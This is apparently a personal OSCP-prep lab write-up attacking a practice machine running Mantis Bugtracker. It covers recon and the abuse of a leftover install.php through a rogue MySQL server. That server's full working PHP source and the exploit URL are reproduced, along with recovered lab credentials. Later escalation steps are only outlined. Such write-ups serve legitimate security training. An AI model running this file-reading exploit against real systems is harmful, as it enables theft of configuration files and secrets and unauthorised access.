

**Start 09:12 07-02-2025**

---
```
Scope:
192.168.192.204
```
# Recon

## Nmap

```bash
sudo nmap -sC -sV -vvvv -Pn -p- mantis -sT --min-rate=5000 -T5

PORT     STATE SERVICE REASON  VERSION
80/tcp   open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-favicon: Unknown favicon MD5: 6DC825C260AFEEA86DFCFEE3B99F13BF
|_http-title: Slick - Bootstrap 4 Template
|_http-server-header: Apache/2.4.41 (Ubuntu)
3306/tcp open  mysql   syn-ack MariaDB 5.5.5-10.3.34
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.34-MariaDB-0ubuntu0.20.04.1
|   Thread ID: 35
|   Capabilities flags: 63486
|   Some Capabilities: LongColumnFlag, Support41Auth, IgnoreSpaceBeforeParenthesis, ODBCClient, SupportsCompression, SupportsLoadDataLocal, SupportsTransactions, Speaks41ProtocolNew, IgnoreSigpipes, InteractiveClient, Speaks41ProtocolOld, DontAllowDatabaseTableColumn, FoundRows, ConnectWithDatabase, SupportsMultipleStatments, SupportsMultipleResults, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: yY1(t4A-\gr(i^xa\+^w
|_  Auth Plugin Name: mysql_native_password
```


Let's use `feroxbuster` to check directories.


## Feroxbuster

```bash
feroxbuster --url http://mantis --force-recursion --filter-status 404 503
```


From the output (and the name of the box) it seems that the software port `80` is running is **Mantis Bugtracker**


Heading to the `/bugtracker/admin` endpoint gives us a login page which I tried to access using the default `administrator - root` creds, but that didn't work.


Since I was getting stuck now I ran `gobuster` for good measure and found the following:

## Gobuster


The `/install.php` endpoint looks promising.


# 80/TCP - HTTP


In the section at the bottom we can click the following button which brings us to another page:


This part really looks promising:


After some digging I found [this article](https://mantisbt.org/bugs/view.php?id=23173) concerning this vulnerability.

>[!quote]
>"After successful installation of bug tracker, it doesn't remove install.php script because of that attacker can read any file on the remote system through some installation process steps.  
The problem is complex and exists inside MySQL server and PHP to MySQL drivers."


## MySQL LFI


We will be using the [mentioned payload](https://github.com/allyshka/Rogue-MySql-Server/blob/master/roguemysql.php):

```php
<?php
function unhex($str) { return pack("H*", preg_replace('#[^a-f0-9]+#si', '', $str)); }

$filename = "/etc/passwd";

$srv = stream_socket_server("tcp://0.0.0.0:3306");

while (true) {
  echo "Enter filename to get [$filename] > ";
  $newFilename = rtrim(fgets(STDIN), "\r\n");
  if (!empty($newFilename)) {
    $filename = $newFilename;
  }

  echo "[.] Waiting for connection on 0.0.0.0:3306\n";
  $s = stream_socket_accept($srv, -1, $peer);
  echo "[+] Connection from $peer - greet... ";
  fwrite($s, unhex('45 00 00 00 0a 35 2e 31  2e 36 33 2d 30 75 62 75
                    6e 74 75 30 2e 31 30 2e  30 34 2e 31 00 26 00 00
                    00 7a 42 7a 60 51 56 3b  64 00 ff f7 08 02 00 00
                    00 00 00 00 00 00 00 00  00 00 00 00 64 4c 2f 44
                    47 77 43 2a 43 56 63 72  00                     '));
  fread($s, 8192);
  echo "auth ok... ";
  fwrite($s, unhex('07 00 00 02 00 00 00 02  00 00 00'));
  fread($s, 8192);
  echo "some shit ok... ";
  fwrite($s, unhex('07 00 00 01 00 00 00 00  00 00 00'));
  fread($s, 8192);
  echo "want file... ";
  fwrite($s, chr(strlen($filename) + 1) . "\x00\x00\x01\xFB" . $filename);
  stream_socket_shutdown($s, STREAM_SHUT_WR);
  echo "\n";

  echo "[+] $filename from $peer:\n";

  $len = fread($s, 4);
  if(!empty($len)) {
    list (, $len) = unpack("V", $len);
    $len &= 0xffffff;
    while ($len > 0) {
      $chunk = fread($s, $len);
      $len -= strlen($chunk);
      echo $chunk;
    }
  }

  echo "\n\n";
  fclose($s);
}
```

And we need to supply the following URL:

```bash
http://mantis/bugtracker/admin/install.php?install=3&hostname=192.168.45.228
```

Which we can do either via `curl`, or the website itself.

This will look as follows:


This way we can go ahead and get the previously mentioned config file `config/config_inc.php` which will most likely be in the web root.


Awesome

```
root
SuperSequelPassword
```

>[!fail]
>In order to log in I had to add the `--skip_ssl` tag to my command:
>


# 3306/TCP - MySQL


From here on I had to find the user info.

```SQL
USE bugtracker;
SHOW tables;
```


Let's crack it:


```
administrator
prayingmantis
```

We can now log in on the admin page:


From here on I had to find a way to get RCE.


# Foothold

I looked up the following:


Let's follow the instructions.


## Steps


Once created it should look like this:


Now we simply need to go to the following URL:

```
http://mantis/bugtracker/workflow_graph_img.php
```


### local.txt




# Lateral Movement

After `linpeas.sh` wasn't succesful I downloaded over `pspy` and let it run, when it showed me the following output:


We now were most likely able to use this password to log in as the *mantis* user, if they reuse the password.


Awesome, let's check out `sudo -l` privileges.


Hell yeah, let's get `proof.txt`.


## Priv Esc & proof.txt


---

**Finished 10:44 07-02-2025**

[^Links]: [[OSCP Prep]]


